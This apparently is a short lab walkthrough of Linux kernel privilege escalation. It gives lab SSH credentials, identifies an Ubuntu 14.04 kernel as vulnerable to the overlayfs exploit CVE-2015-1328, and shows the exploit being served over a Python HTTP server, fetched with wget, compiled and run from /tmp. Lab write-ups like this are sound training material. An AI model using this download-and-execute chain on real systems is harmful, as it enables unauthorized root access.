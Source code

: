 ## Privilege Escalation: Kernel Exploits
- Username: karen
- Password: Password1

First, access to the machine over SSH

`sudo openvpn nguyenlong05.ovpn`

`ssh karen@10.10.230.143`

Once connected, run the following command to gather system details:

```
$ hostnamectl
   Static hostname: wade7363
         Icon name: computer-vm
           Chassis: vm
           Boot ID: 562b28fdff4045a1a0a1684e8d8c80c6
  Operating System: Ubuntu 14.04 LTS
            Kernel: Linux 3.13.0-24-generic
      Architecture: x86_64
```

Now we could identify the CVE for kernel exploit

![alt text](img/image-3.png)
```
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/C
VE-2015-1328.html)
```

Download the script https://www.exploit-db.com/exploits/37292 

Now we check the ip address by the `ifconfig` command

![alt text](img/image-4.png)

Starts a HTTP server using Python. By default, the server listens on port 8000

`python3 -m http.server`

On the machine, we can see it can't create or write file on target system, but we can move to /tmp directory to do it

`cd /tmp`

Now we transfer the exploit to target system `wget http://10.17.21.74:8000/37292.c` and complie it: `gcc 37292.c -o bocchitherock`, make it executable `chmod +x bocchitherock` and run the script `./bocchitherock`

![alt text](img/image-6.png)

![alt text](img/image-7.png)
